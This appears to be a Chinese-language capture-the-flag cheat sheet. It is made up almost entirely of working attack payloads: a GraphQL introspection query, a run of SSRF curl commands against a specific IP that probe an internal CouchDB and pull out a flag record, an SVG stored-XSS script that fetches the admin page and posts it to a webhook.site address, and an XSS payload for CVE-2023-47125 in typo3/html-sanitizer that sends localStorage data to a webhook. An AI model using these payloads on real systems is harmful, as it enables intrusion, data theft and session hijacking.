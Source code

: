 GraphQL 查询所有字段

{
"query": "query IntrospectionQuery { __schema { types { name kind description fields { name description args { name description type { name kind ofType { name kind } } } type { name kind ofType { name kind } } } } } }"
}

SSRF利用

#目标端口扫描 couchdb
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/#\\",\\"sector\\":\\"whale_get_4369\\"}"](http://127.0.0.1:5984/#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_4369%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

#couchdb路径 dbs

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/_all_dbs#\\",\\"sector\\":\\"whale_get_5984_all_dbs\\"}"](http://127.0.0.1:5984/_all_dbs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_all_dbs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'

curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart#\\",\\"sector\\":\\"whale_get_5984_citismart\\"}"](http://127.0.0.1:5984/citismart#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/_all_docs#\\",\\"sector\\":\\"whale_get_5984_citismart_all_docs\\"}"](http://127.0.0.1:5984/citismart/_all_docs#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_all_docs%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale'
curl -X POST 'http://94.237.50.221:39660/api/dashboard/endpoints/' -H 'Cookie: token=whale' -H 'Content-Type: application/json' -d "{\"url\":\"[http://127.0.0.1:5984/citismart/FLAG#\\",\\"sector\\":\\"whale_get_5984_citismart_FLAG\\"}"](http://127.0.0.1:5984/citismart/FLAG#%5C%5C%22,%5C%5C%22sector%5C%5C%22:%5C%5C%22whale_get_5984_citismart_FLAG%5C%5C%22%7D%22)
curl -X GET 'http://94.237.50.221:39660/api/dashboard/metrics' -H 'Cookie: token=whale' | grep FLAG


上传svg 再构造query让管理员访问，将管理员页面内容反弹回webhook
<svg xmlns="http://www.w3.org/2000/svg" width="400" height="400">
  <script type="text/javascript">
    // Fetch the admin dashboard and exfiltrate via webhook
    fetch('/admin')
      .then(res => res.text())
      .then(html =>
        fetch('https://webhook.site/ac03410c-e005-4aa4-85c8-b0eeadab1367', {
          method: 'POST',
          body: btoa(html)
        })
      );
  </script>
</svg>



DOM存储型XSS
PHP组件：
 "typo3/html-sanitizer": "2.1.3"
 CVE-2023-47125
DOM 处理指令未得到正确处理。这允许绕过 的跨站点脚本机制typo3/html-sanitizer
<?xml s><img src="x" onerror="fetch('https://webhook.site/6dbbdd70-feef-4c04-a328-f5a96a14350c?x='+localStorage.getItem('flag'))">?>

